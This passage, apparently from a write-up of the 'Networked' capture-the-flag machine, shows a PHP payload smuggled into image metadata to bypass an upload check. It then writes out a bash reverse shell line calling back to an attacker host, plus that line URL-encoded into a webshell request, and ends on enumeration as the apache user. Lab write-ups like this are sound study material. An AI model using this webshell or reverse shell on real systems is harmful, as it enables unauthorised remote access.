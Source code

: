 Seems we have the source code of the website.

Apparently we can upload pictures in `/upload.php`:

![uploaded successfully](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/uploaded.png)

and then view it in `/photos.php`:

![view photo](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/photos.png)

Moreover the file is stored following this pattern `/uploads/<IP>.<extension>`.

At this point and after a quick look at the source code, I'm thinking: "_it's a file upload challenge_" and we have to bypass the mimetype check.

Thanks to `exiftool`, I was able to execute php code:

![exiftool](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/exiftool.png)

![wesh](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/wesh.png)

### reverse shell

Steps to have a reverse shell:

1. Download a malicious file that will allow us to execute code remotely:

![exiftool 2](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/exif.png)

2. Test **cmd** parameter:

![](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/cmd.png)

3. Encode a bash reverse shell command with `burp`:

![burp](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/burp.png)

- Bash reverse shell command: `bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'`

- URL: `http://10.10.10.146/uploads/10_10_14_7.php.jpg?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%37%2f%31%32%33%34%20%30%3e%26%31%27`

![reverse shell](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/reverse-shell.png)

## User (apache)

```bash
$ id
uid=48(apache) gid=48(apache) groups=48(apache)
$ cd /home
$ ls
guly
$ cd guly
$ ls -la
ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```